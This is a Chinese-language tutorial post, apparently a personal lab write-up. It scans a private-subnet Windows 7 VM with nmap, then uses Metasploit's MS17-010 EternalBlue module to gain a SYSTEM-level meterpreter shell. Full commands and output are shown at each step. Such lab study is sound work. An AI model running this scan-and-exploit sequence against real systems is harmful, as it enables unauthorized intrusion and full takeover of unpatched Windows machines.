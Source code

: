 ```yaml
---
layout: post
title: "Nmap 漏動掃描"
description: ""
date: 2023-07-11
categories:
  - Nmap
  - Nmap_未分類
author: ""
tags: ['Nmap']
---
```




# Nmap 漏動掃描

###### tags: `Nmap`


### nmap -T4 -sn 192.168.43.0/24

```shell
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-25 08:39 EDT
Nmap scan report for kali (192.168.43.84)
Host is up (0.00071s latency).
Nmap scan report for 192.168.43.217
Host is up (0.0020s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 5.23 seconds

```


result: 
192.168.43.217



### tcp scan
```
sudo nmap -T4 -sT -p T:1-65535 192.168.43.217
```


### syn scan 
```
sudo nmap -T4 -sS -p T:1-65535 192.168.43.217
```


若要限定是 TCP Port，則可加上T: 前置。比方說， `-p T:1-65535`。



### 結果:
```shell

Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-25 08:44 EDT
Nmap scan report for 192.168.43.217
Host is up (0.00033s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
554/tcp   open  rtsp
2869/tcp  open  icslap
3389/tcp  open  ms-wbt-server
4623/tcp  open  unknown
4624/tcp  open  unknown
5357/tcp  open  wsdapi
10243/tcp open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
MAC Address: 00:0C:29:DA:FD:12 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 26.37 seconds


```



### 列舉開啟服務的詳細版本
```
nmap -sV -T4 192.168.43.217
```


```shell
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-25 08:51 EDT
Nmap scan report for 192.168.43.217
Host is up (0.00098s latency).
Not shown: 986 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
554/tcp   open  rtsp?
2869/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp  open  ssl/ms-wbt-server?
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
10243/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: LIAR-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.02 seconds

```


### 猜測檢測目標的作業系統版本
```
sudo nmap -T4 -sT -O 192.168.43.217
```


```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-25 08:58 EDT
Nmap scan report for 192.168.43.217
Host is up (0.00069s latency).
Not shown: 986 closed tcp ports (conn-refused)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
554/tcp   open  rtsp
2869/tcp  open  icslap
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
10243/tcp open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
MAC Address: 00:0C:29:DA:FD:12 (VMware)
Device type: general purpose
Running: Microsoft Windows 7|2008|8.1
OS CPE: cpe:/o:microsoft:windows_7::- cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1
Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.39 seconds

```


-                                      -  --  ----
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

```


### 配置選項
```
use 3

show options

set rhosts 192.168.43.217

run

```

有漏洞
```
[+] 192.168.43.217:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.43.217:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```



### 使用exploit 

```
search ms17-010

exploit/windows/smb/ms17_010_eternalblue

show options

set rhosts 192.168.43.217

```




### 返回 meterpreter shell (預設使用)

sysinfo
```

Computer        : LIAR-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : zh_TW
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows


```



shell (使用window shell) 
```
C:\Windows\system32>

```


shell 編碼問題有可能回傳亂碼 (改437 英文)
```
chcp 437
```




whoami
```
C:\Windows\system32>whoami
whoami
nt authority\system

```


whoami /priv
```
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeTcbPrivilege                Act as part of the operating system       Enabled 
SeAuditPrivilege              Generate security audits                  Enabled 
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 


```


